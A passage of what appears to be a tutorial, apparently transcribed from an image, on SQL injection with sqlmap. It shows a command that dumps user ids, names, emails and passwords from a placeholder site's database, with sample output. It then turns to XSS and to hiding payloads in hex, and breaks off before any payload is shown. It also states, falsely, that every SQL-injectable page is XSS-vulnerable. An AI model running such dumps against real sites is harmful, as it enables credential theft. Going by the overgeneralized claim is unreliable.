 ```
[8 columns]
+-------------------+--------------+
| Column            | Type         |
+-------------------+--------------+
| email             | text         |
| id                | int(11)      |
| name              | text         |
| passwd            | text         |
+-------------------+--------------+
```

We have the following columns:

`id, name, email, passwd`

Finally we have to extract the content of those columns:

`sqlmap.py -u "http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1" -D nombre_DB -T usuarios -C id,name,email,passwd --dump `

At the end we have something like this:

```
+----+----------+---------------------+-------------------+
| id | name     | email               |      password     |
+----+----------+---------------------+-------------------+
| 0  | pepito   | pepito@correo.com   | contraseñasegura  |
+----+----------+---------------------+-------------------+

```

With this we have already extracted the information that is inside the columns.


## Go from sql injection to xss injection

Now that we have seen how to do an sql injection "attack", let's move from one vulnerability to another, this will be an xss injection. All pages that are vulnerable to sql injection are also vulnerable to xss injection.

### ¿What is an xss injection?

This "attack" consists of injecting malicious code into benign web pages. The attacker injects code from the client side, so that due to a bad configuration of the web page, this code is shown to other users.

### Using hex to hide payloads

The hexadecimal system is a method of positional numbering that uses the number 16 (Base-16) as a base, that is, there are 16 possible digit symbols.

Their numbers are represented by the first 10 digits of the decimal numbering and the range from the number 10 to the number 15 is represented by the letters of the alphabet: A, B, C, D, E and F.

This is the method with which we are going to inject xss into a sql vulnerability, taking up the example of the vulnerable page we would have something like this:

